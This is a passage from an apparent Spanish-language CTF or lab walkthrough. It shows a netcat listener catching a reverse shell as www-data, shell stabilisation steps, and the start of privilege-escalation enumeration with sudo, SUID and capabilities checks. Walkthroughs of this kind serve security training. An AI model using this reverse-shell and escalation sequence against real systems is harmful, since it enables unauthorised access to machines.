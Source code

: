 Antes de ejecutarlo, configuramos un listener en la máquina atacante.

```bash
nc -nlvp 4444
```


Info: 
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 39318
Linux 507ac954e9cf 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 18:45:47 up  1:31,  0 users,  load average: 0.29, 0.38, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Tras lanzar el script, obtenemos una reverse shell con el usuario www-data.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS


Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```
